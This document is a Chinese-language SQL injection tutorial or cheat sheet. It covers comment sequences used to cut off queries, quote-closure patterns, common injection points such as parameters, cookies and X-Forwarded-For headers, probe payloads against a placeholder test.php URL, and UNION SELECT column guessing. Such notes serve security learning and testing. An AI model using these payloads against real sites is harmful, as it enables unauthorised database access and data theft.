 ### 注释

```
从'#'字符到行尾。
从'--空格'序列到行尾。
从/*序列到后面的*/序列。结束序列不一定在同一行中，因此该语法允许注释跨越多行。
//, -- , /**/, #, --+, -- -, ;%00 , `
```

## 普通注入技术

### 流程

1. 判断是数字型还是字符型注入
2. 猜测语句，构造闭合
3. 注入

### 常见sql注入位置

```txt
常见GET、POST参数
http头(xxf,cookie)
```

### 常见语句格式

```txt
格式：               闭合：
id=1                不需要
id=''               '#
id=""               "#
id=('')             ')--
id=((''))           '))/*
```

### 判断是否存在注入

假设有: <http://www.test.com/test.php?id=1>

#### 数值型注入

```
test.php?id=1+1
test.php?id=-1 or 1=1
test.php?id=-1 or 10-2=8
test.php?id=1 and 1=2
test.php?id=1 and 1=1
```

#### 字符型注入

```
参数被引号包围，我们需要闭合引号。
test.php?id=1'
test.php?id=1"
test.php?id=1' and '1'='1
test.php?id=1" and "1"="1
```
#### 联合查询
```
查询列数
用UNION SELECT注入时，若后面要注出的数据的列与原数据列数不同，则会失败。所以需要先猜解列数。
UNION SELECT

UNION SELECT 1,2,3 #
UNION ALL SELECT 1,2,3 #
```